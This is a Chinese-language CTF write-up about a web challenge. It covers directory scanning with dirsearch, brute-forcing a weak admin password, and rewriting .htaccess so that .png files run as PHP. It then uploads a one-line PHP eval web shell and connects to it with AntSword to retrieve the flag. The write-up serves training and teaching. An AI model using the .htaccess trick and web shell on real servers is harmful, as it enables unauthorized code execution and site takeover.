








<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->




访问但是没有文件上传点



扫描目录查看是否有上传处

``` Shell
dirsearch -u "http://eci-2ze15m1vb2h75tqfcloq.cloudeci1.ichunqiu.com/"
```




访问/admin，看到网页



弱口令爆破 admin/tao，登陆成功，根据题目提示找到.htaccess文件，进行修改，添加代码使其能够对.png文件用php进行解析

```
AddType application/x-httpd-php .png
```




在文章上传找到文件上传处

```
<?php @eval($_POST['t1ng']);?>
```




找到图片路径，蚁剑连接




找到flag



